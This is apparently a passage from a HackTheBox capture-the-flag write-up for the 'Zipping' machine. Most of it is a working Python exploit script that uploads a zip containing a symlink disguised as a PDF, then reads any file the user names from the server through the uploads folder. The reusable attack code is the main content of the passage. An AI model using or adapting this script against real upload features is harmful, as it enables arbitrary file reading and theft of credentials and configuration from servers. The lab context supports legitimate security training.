  &nbsp;




 ![](images`2024-01-19-13-52-32.png)

&nbsp;



 The zipping path is `/var/www/html` and `/var/www/html/shop` lets try get the code . But i so lazy create files one by one to Read the file . So now im using the tools to read the file because its save time 

# Local File Inclusion



 ```
 #!/usr/bin/python3
import stat
import zipfile
import requests
import re
import os

url = "http://zipping.htb:80/upload.php"
base_url = "http://zipping.htb/"


def create_zip_with_symlink(output_zip_filename, link_source, link_target):
    zipInfo = zipfile.ZipInfo(link_source)
    zipInfo.create_system = 3
    unix_st_mode = (
        stat.S_IFLNK
        | stat.S_IRUSR
        | stat.S_IWUSR
        | stat.S_IXUSR
        | stat.S_IRGRP
        | stat.S_IWGRP
        | stat.S_IXGRP
        | stat.S_IROTH
        | stat.S_IWOTH
        | stat.S_IXOTH
    )
    zipInfo.external_attr = unix_st_mode << 16
    zipOut = zipfile.ZipFile(
        output_zip_filename, 'w', compression=zipfile.ZIP_DEFLATED)
    zipOut.writestr(zipInfo, link_target)
    zipOut.close()


while True:
    file = input("filename: ")
    create_zip_with_symlink('link.zip', 'link.pdf', file)
    with open('link.zip', 'rb') as f:
        file_content = f.read()

    files = [('zipFile', ('sym.zip', file_content, 'application/octet-stream'))]
    data = {"submit": ""}
    r = requests.post(url, data=data, files=files)

    link = re.search('uploads.*.pdf">', r.text).group(0).strip('">')
    print(requests.get(base_url + link).text)
```
&nbsp;
